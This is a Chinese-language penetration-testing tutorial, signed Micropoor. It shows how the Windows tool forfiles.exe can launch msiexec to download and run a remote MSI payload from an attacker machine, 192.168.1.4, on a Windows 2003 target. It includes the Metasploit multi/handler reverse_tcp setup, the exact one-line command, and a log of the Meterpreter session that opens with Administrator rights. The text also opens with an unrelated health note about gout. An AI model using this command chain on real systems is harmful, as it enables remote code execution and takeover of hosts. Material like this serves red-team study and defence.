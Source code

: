 **注：**请多喝点热水或者凉白开，可预防**肾结石，通风**等。
痛风可伴发肥胖症、高血压病、糖尿病、脂代谢紊乱等多种代谢性疾病。

### Forfiles简介：

Forfiles为Windows默认安装的文件操作搜索工具之一，可根据日期，后缀名，修改日期为条件。常与批处理配合使用。

微软官方文档：  
https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/cc753551(v=ws.11)

说明：Forfiles.exe所在路径已被系统添加PATH环境变量中，因此，Forfiles命令可识别，需注意x86，x64位的Forfiles调用。

Windows 2003 默认位置：
`C:\WINDOWS\system32\forfiles.exe
C:\WINDOWS\SysWOW64\forfiles.exe`

Windows 7 默认位置：
`C:\WINDOWS\system32\forfiles.exe
C:\WINDOWS\SysWOW64\forfiles.exe`

**攻击机：** 192.168.1.4 Debian  
**靶机：** 192.168.1.119 Windows 2003

### 配置攻击机msf：
```bash
msf exploit(multi/handler) > show options 

Module options (exploit/multi/handler): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐

Payload options (windows/meterpreter/reverse_tcp): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐

EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)

LHOST 192.168.1.4 yes The listen address (an interface may be specified)

LPORT 53 yes The listen port 

Exploit target: 

Id Name
 ‐‐ ‐‐‐‐
0 Wildcard Target 

msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.4:53 
```
![](media/caedeec0997c3ee413473c009faeebcb.jpg)

### 靶机执行：Windows 2003

![](media/6ff0192b4034032c1a131ee6ab4a876e.jpg)

```bash
forfiles /p c:\windows\system32 /m cmd.exe /c "msiexec.exe /q /i http://192.168.1.4/Micropoor_rev_x86_msi_53.txt"
```

![](media/43ffb66347850546f46981339421e5d4.jpg)

```bash
msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.4:53
[*] Sending stage (179779 bytes) to 192.168.1.119
[*] Meterpreter session 15 opened (192.168.1.4:53 ‐> 192.168.1.119:133
1) at 2019‐01‐20 06:34:08 ‐0500
meterpreter > getuid
Server username: WIN03X64\Administrator
meterpreter > getpid
Current pid: 392
meterpreter > 
```

![](media/27318b0234b037aa459041021632b857.jpg)

>   Micropoor
